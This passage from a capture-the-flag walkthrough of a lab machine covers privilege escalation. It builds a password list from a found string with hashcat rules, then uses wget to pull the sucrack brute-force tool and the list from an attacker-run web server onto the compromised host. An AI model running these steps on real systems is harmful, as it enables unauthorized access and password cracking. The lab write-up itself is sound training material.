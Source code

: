 ![ssh](/assets/{{ imgDir }}/ssh.png)

We can try to log in over SSH with the credentials we found in the chat. As shown above, this works and we get a shell as the `maildeliverer` user! The next step is to crack the `root` user's password to get a root shell.

# Privilege Escalation
We start by generating passwords based on the string 'PleaseSubscribe!' which we found earlier. This can be done using hashcat by executing `echo PleaseSubscribe! | hashcat -r /usr/share/hashcat/rules/best64.rule --stdout > passwords`. This command uses hashcat's rule engine to mutate the string 'PleaseSubscribe!' into similar strings. The `-r` flag is used to specify a `.rule` file which is simply a file containing mutation rules that describe how a string should be modified. Each line corresponds to one mutation. For example, the `/usr/share/hashcat/rules/best64.rule` file contains the lines `so0`, `si1`, `se3`. These rules substitute the "o", "i" and "e" characters with the "0", "1" and "3" characters respectively. For example, applying these three rules to the string "leetify" would result in the string "l33t1fy". A great way to learn the syntax of the rules is hashcat's [official documentation for rule based attacks](https://hashcat.net/wiki/doku.php?id=rule_based_attack).

A tool which can guess user passwords, without requiring password hashes, is [sucrack](https://github.com/hemp3l/sucrack/). The drawback of this tool is, however, that it has to be executed locally on the target host. As the name suggests, the tool uses the `su` command, which is normally used to get an interactive shell as a specific user, to brute force the password of a particular user. Like conventional cracking tools, sucrack can read a wordlist and attempt each password in that wordlist. It attempts to use each password in the wordlist until it either runs out of passwords or finds the correct password.

We can download the sucrack project from its [Github repository](https://github.com/hemp3l/sucrack/) as a zip file, using `wget`. Then, we can transfer the file to the target host by executing `python3 -m http.server` to start a python web server and downloading the zip file using `wget` on the compromised host, as demonstrated in the two code blocks below. We can also download the `passwords` file we generated earlier using the same technique. Once we have downloaded the two files, we execute `unzip sucrack.zip` to extract the zip file. This results in the creation of a directory named "sucrack-master" which we navigate to by executing `cd sucrack-master`.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@wget https://github.com/hemp3l/sucrack/archive/refs/heads/master.zip -O sucrack.zip@@
[...]
2021-12-01 14:20:38 (744 KB/s) - ‘sucrack.zip’ saved [164375]

┌──(kali㉿kali)-[/tmp/x]
└─$ @@sudo python3 -m http.server 80@@
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}

{% highlight none linenos %}
maildeliverer@Delivery:~$ @@wget http://10.10.16.3/sucrack.zip@@
[...]
2021-12-01 08:23:12 (599 KB/s) - ‘sucrack.zip’ saved [164375/164375]

maildeliverer@Delivery:~$ @@wget http://10.10.16.3/passwords@@
[...]
2021-12-01 08:31:00 (262 MB/s) - ‘passwords’ saved [1177/1177]

maildeliverer@Delivery:~$ @@unzip sucrack.zip@@
Archive:  sucrack.zip
c738b9a6d78b6aa517767d7621480a3f3dfb4dd6
   creating: sucrack-master/
  inflating: sucrack-master/COPYING  
  inflating: sucrack-master/ChangeLog  
[...] 
  inflating: sucrack-master/src/worker.h
maildeliverer@Delivery:~$ @@cd sucrack-master/@@
maildeliverer@Delivery:~/sucrack-master$
{% endhighlight %}
